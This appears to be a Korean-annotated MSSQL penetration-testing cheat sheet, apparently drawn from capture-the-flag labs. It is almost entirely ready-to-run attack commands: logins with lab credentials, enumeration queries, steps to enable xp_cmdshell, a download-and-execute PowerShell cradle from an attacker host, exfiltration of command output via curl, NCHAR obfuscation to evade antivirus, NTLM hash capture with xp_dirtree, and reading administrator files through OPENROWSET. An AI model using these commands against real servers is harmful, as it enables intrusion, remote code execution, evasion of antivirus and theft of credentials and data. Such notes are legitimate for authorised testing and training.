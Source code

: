 
### mssql connect
```bash
# windows 계정으로 로그인할 경우
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.145.148 -windows-auth
# DB 계정으로 로그인할 경우
impacket-mssqlclient "streaio.htb/db_admin:B1@hx31234567890"@240.0.0.1

# 로컬에서 접근할 경우
.\sqlcmd.exe -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```

### db enumeration

```sql
enum_db
```

### show tables

```sql
SELECT table_name FROM <db_name>.INFORMATION_SCHEMA.TABLES 
```

### db 전환

```sql
USE <database_name>;
```

### select tables

```sql
SELECT * from <table_name>
```

### db 내 user정의 table(u) 조회

```sql
SELECT name,id from <db_name>..sysobjects where xtype='u';
# 한번에 id:name 쌍을 출력해야할 경우
SELECT concat(id,":",name) from <db_name>..sysobjects where xtype='u';
# 여러줄을 | 구분자로 이어붙일 경우
SELECT string_agg(concat(name,':',id),'|') from <db_name>..sysobjects where xtype='u'
```

### db 내 column 이름 조회

```sql
# SELECT column name thru table id
SELECT string_agg(name,'|') from <db_name>..syscolumns where id=<id>
```

### Enable xp_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

### xp_cmdshell

```powershell
# RCE thru ps1
exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<LHOST>/<FILE>.ps1')" ;

# RCE thru curl
EXEC xp_cmdshell 'powershell -c "$x = whoami; curl <http://my-kali?output=$x>"';
```

### File Read, OOB (NTLM Hash)

```sql
EXEC xp_dirtree 'C:\\inetpub\\wwwroot\\',1,1;
```

### AV Bypass
```sql
DECLARE @sql NVARCHAR(100); SET @sql = NCHAR(120)+NCHAR(112)+NCHAR(95)+NCHAR(99)+NCHAR(109)+NCHAR(100)+NCHAR(115)+NCHAR(104)+NCHAR(101)+NCHAR(108)+NCHAR(108); EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure @sql, 1; RECONFIGURE; EXEC @sql 'ipconfig';
```

### SID
```sql
SELECT name, sid, type_desc FROM sys.server_principals;
SELECT SUSER_SID('SIGNED\mssqlsvc');
```

### File Read
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ad Hoc Distributed Queries', 1; RECONFIGURE;
SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt',SINGLE_CLOB) AS x;
```

### SYSADMIN
```sql
SELECT r.name AS role, m.name AS member FROM sys.server_principals r JOIN sys.server_role_members rm ON r.principal_id = rm.role_principal_id JOIN sys.server_principals m ON rm.member_principal_id = m.principal_id WHERE r.name = 'sysadmin';
```
